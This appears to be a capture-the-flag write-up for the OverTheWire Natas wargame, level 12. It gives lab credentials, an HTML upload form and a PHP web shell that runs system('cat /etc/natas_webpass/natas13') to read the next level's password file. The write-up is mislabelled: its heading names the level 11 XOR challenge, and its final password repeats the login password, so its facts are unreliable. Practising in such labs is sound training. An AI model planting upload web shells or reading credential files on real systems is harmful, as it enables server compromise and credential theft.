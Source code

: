 # [Level 11 to 12](https://overthewire.org/wargames/natas/natas12.html) - XOR encryption

- Login
```
URL: http://natas12.natas.labs.overthewire.org
Username: natas12
Password: yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```
- Exercise:
![image](https://github.com/user-attachments/assets/bc198088-c94a-4f8c-9bc0-617bda87fc74)
![image](https://github.com/user-attachments/assets/b98e4e20-afb9-40de-93e8-8192a2cad313)

- Background:
- Solution:
  - Save the following as file `natas12_form.html`: 
  ```html
  <html>
  <form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />
  <input type="hidden" name="filename" value="natas12_getpass.php" />
  Choose a JPEG to upload (max 1KB):<br/>
  <input name="uploadedfile" type="file" /><br />
  <input type="submit" value="Upload File" />
  </form>
  </body>
  </html>
  ```
  - Save the following as file `natas12_getpass.php` and load it into `natas12_form.html`:
  ```php
  <?php
  system("cat /etc/natas_webpass/natas13")
  ?>
  ```
- Password: `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`
